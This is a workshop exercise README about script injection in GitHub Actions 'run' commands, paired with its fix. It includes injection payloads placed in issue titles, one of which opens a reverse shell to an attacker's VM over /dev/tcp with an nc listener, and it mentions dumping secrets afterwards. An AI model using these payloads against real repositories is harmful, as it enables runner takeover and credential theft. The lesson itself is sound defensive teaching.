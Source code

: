 # Exercise 1 - Script injection in the run command
## :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Create an issue with the exploit payload
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

<img width="1042" alt="Screenshot 2023-08-30 at 7 38 43 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/e3fa3917-2834-45cc-a297-d25614c3185e">

Now let's look at the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) which uses an [action](.github/actions/check-issue-title-action/action.yml) using the run command...
1. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
2. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

### What's the problem here?
Ok. Big deal. So we were able to see what is in the workspace directory. Who cares?  
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  

## :lock: Fixing the script injection vulnerability in the run command
The run command will create a script from its input and run that script. The run command does not know the difference between commands and data. Therefore, when user input is put directly into the run command, there is a script injection vulnerability that can be exploited as we just did.  

The way to mitigate this vulnerability is to put the user input into an environment variable, which is not used to generate the script that the run command executes.  

Let's edit the [Check issue title workflow](.github/workflows/check-issue-title.yml) to use an environment variable that we set using the user input.

1. Open the file [.github/workflows/check-issue-title.yml](.github/workflows/check-issue-title.yml)  
2. Add an environment variable section to the `Check issue title` step...
```
      - name: Check issue title
        env:
            ISSUE_TITLE: ${{ github.event.issue.title }}
```
3. Remove the user input from the run command by deleting the follwing line:
```
          title="${{ github.event.issue.title }}"
```

4. Use the new environment variable in the run command...
```
          if [[ $ISSUE_TITLE =~ ^octocat ]]; then
          ...
```
5. Test this out by [creating a new issue as we did above](#create-an-issue-with-the-exploit-payload).  
6. Notice that the `ls -s $GITHUB_WORKSPACE` command does not appear in the output as it did previously.  

